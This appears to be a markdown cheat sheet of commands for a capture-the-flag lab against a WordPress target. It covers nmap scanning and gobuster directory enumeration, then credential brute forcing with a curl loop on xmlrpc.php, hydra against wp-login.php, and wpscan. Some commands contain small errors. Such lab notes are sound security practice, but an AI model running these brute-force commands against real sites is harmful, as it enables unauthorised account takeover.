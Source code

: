 ### How to scan ports with nmap
```bash
IP_ADDR=
nmap -sV -sC -oA initial $IP_ADDR
```
### How to enumerate web server directories
```bash
WORDLISTS=
gobuster dir -u HTTP://${IP_ADDR} -w ${WORDLISTS} -t 100 -q -o gobuster.txt
```
## How to filter unique string
```bash
wc -l fsocity.dic # number of lines
sort fsocity.dic | uniq | wc -l # unique words
sort fsocity.dic | uniq > example_filtered.txt
```
### A LOTL attack 
```bash
username="admin"
password="password"
for pass in $(cat passwords.txt); do curl -s -X POST -d "<?xml version='1.0'?><methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>$username</value></param><param><value>$pass</value></param></params></methodCall>" http://10.10.6.115/xmlrpc.php | grep -q 'Incorrect username or password.' || echo "Found credentials: $username:$pass"; done
```
### How to bruteforce input fields with hydra
Username
```bash
IP_ADDR=
hydra -L fsocity.dic -p example $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
hydra -L fsocity.di -p example $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP_ADDR%2Fwp-admin%2F&testcookie=1:Invalid Username" -t 30
```
Password
```bash
hydra -L example -P fsocity.dic $IP_ADDR http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you enter for the username" -t 30
```
### How to bruteforce input fields with wpscan
```bash
wpscan --url http://${IP_ADDR} --passwords fsocity.dic --usernames Elliot  
```
